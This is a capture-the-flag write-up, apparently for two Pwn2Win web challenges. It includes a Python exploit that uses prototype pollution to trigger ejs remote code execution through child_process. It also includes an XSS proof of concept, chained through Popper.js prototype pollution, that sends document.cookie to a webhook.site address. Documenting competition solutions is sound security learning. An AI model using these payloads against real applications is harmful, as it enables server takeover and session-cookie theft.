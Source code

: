 # Illusion

* easy prototype pollution bypass using `constructor/prototype`
* classic RCE by ejs render option `outputFunctionName`

```python
import requests


proxies = {
    'http':'http://127.0.0.1:1080/'
}
headers = {
    'Authorization': 'Basic YWRtaW46Y2pqb3NtaGhreHhsZmRlcw=='
}
url = 'http://illusion.pwn2win.party:48110/'

r = requests.post(url + 'change_status', json = {
    'constructor/prototype/outputFunctionName':"a=1; return global.process.mainModule.constructor._load('child_process').execSync('/readflag'); //"
}, headers= headers, proxies = proxies)
r = requests.get(url, headers= headers, proxies = proxies)
print(r.text)
```

## Small Talk 

* iframe postMessage is vulnerable to race condition
* Bypass shvl and get prototype pollution with `author.__proto__.abc`
* Find a gadget of Popperjs , At first I find that `popper` can be polluted, and if `popper` is an object like `{"onmouseover":"alert(1)"}`, popperjs will execute  `setAttribute` of div which end up with `<div id="send-tooltip" role="tooltip" onmouseover="alert(1)">` 
* However, I find it impossible to trigger onmonseover event automatically (If not, plz guide me how to do that :) ). After the game it turns out that I can simply pollute another element `reference`. After reading the source code, I realiaze that `reference` refers to the button`#send-button`  while `popper` refers to the div `#send-tooltip`, which are exactly the two parmaters of `createPopper` function

https://github.com/popperjs/popper-core/blob/master/src/createPopper.js#L53-L55

So we can get xss via onblur attribute of button.

Poc:
```html
<iframe name="xss" src="https://small-talk.coach:1337/#send-button" width="800" height="800"></iframe>
<body><input id="byc" autofocus></body>
<script>
    setInterval(() => {
        xss.postMessage('{"author.__proto__.reference.onblur": "location=`https://webhook.site/0e7689bf-83ba-4293-a933-d978227cbcea/${document.cookie}`", "message": "123"}', '*');
    }, 300);
</script>
<script>
    setInterval(function(){
        document.querySelector('#byc').focus();
    }, 500)
</script>
```
